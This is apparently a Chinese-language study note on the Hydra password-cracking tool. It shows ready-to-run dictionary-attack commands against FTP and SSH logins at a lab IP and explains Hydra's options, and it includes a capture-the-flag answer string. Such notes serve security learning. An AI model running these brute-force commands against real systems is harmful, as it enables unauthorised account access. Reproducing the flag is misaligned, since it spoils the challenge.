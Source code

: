 ```yaml
---
{"dg-publish":true,"dg-path":"安全/工具/Hydra_字典密码破解.md","permalink":"/安全/工具/Hydra_字典密码破解/","title":"Hydra_字典密码破解"}
---
```


# 基本用法
```shell
hydra -l username -P wordlist.txt server service
```
+ -l 用户名：-l 应该在用户名之前，即目标的登录名。
+ -P wordlist.txt： -P 位于 wordlist.txt 文件之前，该文件是一个文本文件，其中包含您要使用提供的用户名尝试的密码列表。
+ server 是目标服务器的主机名或 IP 地址。
+ service 表示您尝试发起字典攻击的服务。

应用实例：
```
hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.12.199 ftp


hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://10.10.12.199


hydra -l frank -P /usr/share/wordlists/rockyou.txt 10.10.12.199 ssh
```

`HNUCTF{OSINT_leads_to_flag}`
# 额外参数

+ `-s PORT` 为相关服务指定非默认端口。
+ `-V` 或 `-vV` 表示详细，使 Hydra 显示正在尝试的用户名和密码组合。这种冗长性非常方便地查看进度，尤其是在您仍然对命令行语法没有信心的情况下。
+ ` -t n`，其中 n 是到目标的并行连接数。-T 16 将创建 16 个用于连接到目标的线程。
+ `-d`，用于调试，以获取有关正在发生的事情的更多详细信息。调试输出可以为您省去很多挫败感;例如，如果 Hydra 尝试连接到一个关闭的端口并超时，-d 将立即显示此消息。



